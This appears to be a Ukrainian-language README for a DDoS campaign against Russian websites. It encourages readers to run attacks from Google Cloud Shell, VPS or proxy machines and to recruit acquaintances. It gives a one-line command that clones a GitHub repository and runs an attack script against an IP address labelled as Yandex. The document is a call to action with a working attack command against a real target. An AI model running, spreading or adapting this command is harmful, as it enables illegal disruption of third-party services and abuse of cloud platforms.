 **DDoS атака** йде з *серверів Google* завдяки [Google Shell](https://shell.cloud.google.com/?hl=en_US&fromcloudshell=true&show=terminal)  .  Якщо у вас є *VPS/VDS*, або комп'ютери з *proxy серверами*, то ви можете запустити атаку з них. 
***
Також ви можете  *залучати своїх приятелів та знайомих* допомагати нам проводити DDoS атаки, завдяки цьому ми зможемо "покласти" більше російських сайтів.
 ***

##### Requirements
- python 3x
- shell (sh)
- inet connection
***
### DDOS >> YANDEX
```
git clone https://github.com/dxh-team/CDUW && cd CDUW && ./attack.sh -s 5.255.255.50
```
***
### More information
**[https://github.com/curated-intel/Ukraine-Cyber-Operations](https://github.com/curated-intel/Ukraine-Cyber-Operations)** 
